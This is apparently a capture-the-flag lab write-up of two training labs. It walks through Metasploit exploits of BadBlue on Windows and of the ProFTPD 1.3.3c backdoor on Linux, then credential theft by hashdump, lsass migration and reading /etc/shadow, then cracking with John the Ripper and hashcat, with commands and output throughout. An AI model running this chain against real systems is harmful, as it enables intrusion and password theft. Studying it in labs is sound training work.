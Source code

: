 # 🔬Cracking Hashes

## Lab 1 - Windows

> 🔬 [Windows: NTLM Hash Cracking](https://attackdefense.com/challengedetails?cid=2351)
>
> - Target IP: `10.2.24.37`
> - **NTLM Hashes dumping and cracking**

### Enumeration & Exploitation

```bash
nmap -sV -p 80 10.2.24.37
```

```bash
80/tcp open  http BadBlue httpd 2.7
```

```bash
service postgresql start && msfconsole -q
```

```bash
search badblue
use exploit/windows/http/badblue_passthru
options
setg RHOSTS 10.2.24.37
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
get privs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- With the `Administrator` Meterpreter session, privilege escalation is not necessary.
- Migrate to the `lsass` process

```bash
pgrep lsass
migrate 688
# Meterpreter session is x64 and more stable now
```

### Dumping Hashes

❗ In order to set up persistence, administrative privileges are required.

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

- Open a new tab and create a `.txt` file with the dumped hashes. Paste the `Administrator` and `bob` hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
```

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_windows](https://www.rapid7.com/db/modules/auxiliary/analyze/crack_windows) module can be used to brute-force the hashes.

#### JohnTheRipper

- In this case John The Ripper will be used as an example

[**`john`**](https://github.com/openwall/john) - *Open Source password security auditing and password recovery tool available for many operating systems*

```bash
john --list=formats | grep NT
	netntlm, netntlm-naive, net-sha1, nk, notes, md5ns, nsec3, NT, o10glogon
```

```bash
john --format=NT hashes.txt
# It will use the default wordlist
```

![john](.gitbook/assets/image-20230429165909391.png)

- Use the **`rockyou.txt`** wordlist instead

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

#### Hashcat

[**`hashcat`**](https://hashcat.net/hashcat/) - *Open Source advanced password recovery utility, supporting five unique modes of attack for over 300 highly-optimized hashing algorithms*

- Crack NTLM hashes with **`hashcat`** brute-force

```bash
hashcat -a 3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt 

hashcat -a 3 -m 1000 --show hashes.txt /usr/share/wordlists/rockyou.txt 
    8846f7eaee8fb117ad06bdd830b7586c:password
    5835048ce94ad0564e29a924a03510ef:password1
```

![hashcat](.gitbook/assets/image-20230429171221536.png)

- Try RDP login

```bash
xfreerdp /u:Administrator /p:password /v:10.2.24.37
```



<details>
<summary>Reveal Flag - Administrator's Password is: 🚩</summary>



`password`



</details>



<details>
<summary>Reveal Flag - bob's Password is: 🚩</summary>



`password1`



</details>

------

## Lab 2 - Linux

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> - Target IP: `192.22.107.3`
> - **Password Hashes dumping and cracking**
> - Same lab as the [🔬Hashes Dumping lab](../1-system-attack/linux-attacks/creds-dump-unix.md)

### Enumeration & Exploitation

```bash
ip -br -c a
	192.22.107.2/24
```

```bash
nmap -sV 192.22.107.3
```

```bash
21/tcp open  ftp  ProFTPD 1.3.3c
```

```bash
service postgresql start && msfconsole -q
```

```bash
setg RHOSTS 192.22.107.3
search proftpd
use exploit/unix/ftp/proftpd_133c_backdoor
exploit
```

```bash
/bin/bash -i
```

### Dumping Hashes

```bash
cat /etc/shadow
```

> 📌 `root`:`$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.`
>
> - `$6` = the hashing algorithm is **SHA-512**

![](.gitbook/assets/image-20230429172631955.png)

- An MSF module can be used for hash dumping

```bash
# CTRL+Z to background the session
sessions -u 1
session 2

use post/linux/gather/hashdump
set SESSION 2
run
```

![Metasploit - post/linux/gather/hashdump](.gitbook/assets/image-20230429173144172.png)

```bash
cat /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt
	root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
```

- Exit `MSFconsole`

### Cracking Hashes

- Metasploit [auxiliary/analyze/crack_linux](auxiliary/analyze/crack_linux) module can be used to brute-force the hashes. Check the technique in the same [🔬lab environment](../1-system-attack/linux-attacks/creds-dump-unix.md).

#### JohnTheRipper

- In this case John The Ripper will be used as an example

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

john --format=sha512crypt /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](.gitbook/assets/image-20230429173532699.png)

#### Hashcat

```bash
hashcat --help | grep 1800
	1800 | sha512crypt $6$, SHA512 (Unix) | Operating Systems
```

```bash
hashcat -a 3 -m 1800 /root/.msf4/loot/20230429153134_default_192.22.107.3_linux.hashes_083080.txt /usr/share/wordlists/rockyou.txt
```

![hashcat](.gitbook/assets/image-20230429173910283.png)



<details>
<summary>Reveal Flag - "root" user's password is: 🚩</summary>



`password`



</details>

------

